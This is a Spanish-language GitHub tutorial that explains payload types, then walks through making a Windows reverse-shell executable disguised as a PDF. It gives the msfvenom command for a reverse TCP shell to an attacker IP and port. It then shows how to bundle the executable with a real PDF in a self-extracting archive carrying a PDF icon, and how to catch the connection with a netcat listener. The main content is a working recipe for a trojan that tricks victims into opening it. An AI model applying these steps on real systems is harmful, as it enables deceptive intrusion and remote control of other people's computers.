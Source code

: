 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Incrustar+Payload+.EXE+a+un+archivo+.PDF"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>Qué es un PAYLOAD y cuáles son sus TIPOS</ins></h3>

En el campo de la seguridad informática el payload (*carga útil*) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.

El término de "**carga útil maliciosa**" o "**payload malicioso**" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras.  Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.

##### TIPOS de PAYLOADS

- **Payload BIND (Directo)**: Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.

- **Payload REVERSE (Inverso)**: Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto _1234_ por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida. 

En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

- <a href="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/ataqueXSS.md">Vulnerabilidad Cross-site scripting y secuestro de cookies</a>

- <a href="https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/">Diferencia entre payload Bind y Reverse</a>

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/O.S/img/tiposPayloads.png">
</p>

<h1 align="center"></h1>

### ➤ Incrustar payload .EXE 

En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
```

![1](https://user-images.githubusercontent.com/75953873/221320034-6f8e564e-c111-4554-8678-6580b10aabba.png)

- **-p**: Tipo de payload (para Windows de 64bits de tipo reverse).

- **LHOST**: IP de la máquina atacante.

- **LPORT**: Puerto escucha.

- **-f**: Formato del archivo (.exe).

- **-o**: Nombre del archivo (salida).

El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a `.ico` con la siguiente página (https://www.icoconverter.com/):

![2](https://user-images.githubusercontent.com/75953873/221322644-1b8a2990-3796-4154-9010-961142191c73.png)

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "_Añadir al archivo_".

![3](https://user-images.githubusercontent.com/75953873/221322932-e7c37e7f-3d3a-4f85-a130-23b65446df87.png)

Marcan la casilla de "_Crear un archivo autoextraíble_" y en el método de compresión seleccionan "_La mejor_".

![4](https://user-images.githubusercontent.com/75953873/221323181-d5cc8413-3faf-4f22-8355-00cef6ec84bc.png)

Luego, en el apartado de "**Avanzado**", dan clic en "_Autoextraíble_" **->** "_Instalación_" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

![5](https://user-images.githubusercontent.com/75953873/221323376-e204ff6f-470d-48ee-904e-a8dbd36befbd.png)

En la sección de "**Actualizar**" marcan las casillas de "_Extrar y actualizar ficheros_" y "_Sobrescribir todos los ficheros_".

![6](https://user-images.githubusercontent.com/75953873/221323534-9e55c199-7180-4dd1-9bd4-864cc94a9bd8.png)

Para añadir el icono hay que ir a "**Texto e icono**" y cargarlo en la última opción "_Cargar icono desde fichero_"; aquí seleccionan el logo convertido a `.ico`.

![7](https://user-images.githubusercontent.com/75953873/221323864-326a2cf4-8580-43e5-baf6-e9842b94ebf7.png)

Por útilmo, escogen el nombre del archivo malicioso.

![8](https://user-images.githubusercontent.com/75953873/221324091-a0926da4-c1d8-4737-a2cb-f70255f30b9b.png)

Desde la máquina atacante pondremos a escucha conexiones por el puerto `4444` con la herramienta de Netcat.

```
nc -nlvp 4444
```

- **-n**: Modo dirección IP númerica.

- **-l**: Modo escucha.

- **-v**: Modo verbose (detalles de conexiones).

- **-p**: Puerto específico de escucha.

Y esperamos que la víctima ejecute el documento malicioso y le de a "**Instalar**".

![9](https://user-images.githubusercontent.com/75953873/221324860-3dc1a8e3-116b-4812-b028-3e874f5d071c.png)

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

![10](https://user-images.githubusercontent.com/75953873/221324978-a2d0344f-fe32-4288-9252-ad6413dc15d1.png)

##### CONTINUARÁ...

